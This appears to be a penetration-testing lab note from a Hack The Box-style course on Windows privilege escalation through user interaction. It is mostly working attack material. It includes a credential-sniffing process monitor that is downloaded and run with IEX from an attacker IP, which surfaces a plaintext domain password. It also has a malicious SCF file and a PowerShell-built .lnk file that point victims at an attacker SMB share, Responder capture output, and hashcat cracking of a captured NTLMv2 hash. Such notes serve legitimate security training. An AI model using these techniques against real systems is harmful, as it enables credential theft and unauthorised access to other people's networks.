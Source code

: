 # Interacting with Users

The tool [net-creds](https://github.com/DanMcInerney/net-creds) can be run from our attack box to sniff passwords and hashes from a live interface or a pcap file.&#x20;

## **Process Command Lines**

### **Monitoring for Process Command Lines**

display scheduled tasks or other processes being executed which pass credentials on the command line

```powershell
# create script on attack then transfer to victim 
while($true)
{

  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2

}
```

### **Running Monitor Script on Target Host**

```powershell
PS C:\htb> IEX (iwr 'http://10.10.15.150/procmon.ps1') 

InputObject                                           SideIndicator
-----------                                           -------------
@{CommandLine=C:\Windows\system32\DllHost.exe /Processid:{AB8902B4-09CA-4BB6-B78D-A8F59079A8D5}} =>      
@{CommandLine=“C:\Windows\system32\cmd.exe” }                          =>      
@{CommandLine=\??\C:\Windows\system32\conhost.exe 0x4}                      =>      
**@{CommandLine=net use T: \\sql02\backups /user:inlanefreight\sqlsvc My4dm1nP@s5w0Rd}       =>**       
@{CommandLine=“C:\Windows\system32\backgroundTaskHost.exe” -ServerName:CortanaUI.AppXy7vb4pc2... <=
```

This is successful and reveals the password for the `sqlsvc` domain user

***

## **Vulnerable Services**

[CVE-2019–15752](https://medium.com/@morgan.henry.roman/elevation-of-privilege-in-docker-for-windows-2fd8450b478e) : in this vulnerability docker search on file call `docker-credential-wincred.bat` or `docker-credential-wincred.exe` which search on this path `C:\PROGRAMDATA\DockerDesktop\version-bin\` but this path allow anyone to full write access

***

## **SCF on a File Share**

A Shell Command File (SCF) is used by Windows Explorer to move up and down directories, show the Desktop, etc. An SCF file can be manipulated to have the icon file location point to a specific UNC path and have Windows Explorer start an SMB session when the folder where the .scf file resides is accessed. If we change the IconFile to an SMB server that we control and run a tool such as [Responder](https://github.com/lgandx/Responder), [Inveigh](https://github.com/Kevin-Robertson/Inveigh), or [InveighZero](https://github.com/Kevin-Robertson/InveighZero), we can often capture NTLMv2 password hashes for any users who browse the share

بمعني اننا ممكن نغير الايقون فايل بحيث تشاور علي سيرفر ال SMB و نشغل تولز و ظيفتها انها تسنيف عن النيتورك دي و تعرض اي هاش ل اي حد اتصفح الشير دا

### **Malicious SCF File**

let's create the following file and name it something like `@Inventory.scf` (similar to another file in the directory, so it does not appear out of place). We put an `@` at the start of the file name to appear at the top of the directory to ensure it is seen and executed by Windows Explorer as soon as the user accesses the share. put your ip and any fake name `.ico`

```powershell
[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

### **Starting Responder**

```bash
irix@htb[/htb]$ sudo responder -wrf -v -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.2.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
```

### **Cracking NTLMv2 Hash with Hashcat**

```bash
irix@htb[/htb]$ hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

ADMINISTRATOR::WINLPE-SRV01:815c504e7b06ebda:afb6d3b195be4454b26959e754cf7137:01010...<SNIP>...:Welcome1
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NetNTLMv2
Hash.Target......: ADMINISTRATOR::WINLPE-SRV01:815c504e7b06ebda:afb6d3...000000
Time.Started.....: Thu May 27 19:16:18 2021 (1 sec)
Time.Estimated...: Thu May 27 19:16:19 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
```

## **Capturing Hashes with a Malicious .lnk File**

SFCs not work on Server 2019 hosts , but we can achieve the same effect using a malicious`.lnk` file (shortcut file). We can use various tools to generate a malicious .lnk file, such as [**`Lnkbomb`**](https://github.com/dievus/lnkbomb)

Powershell file

```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

file to allow connect on SMB share
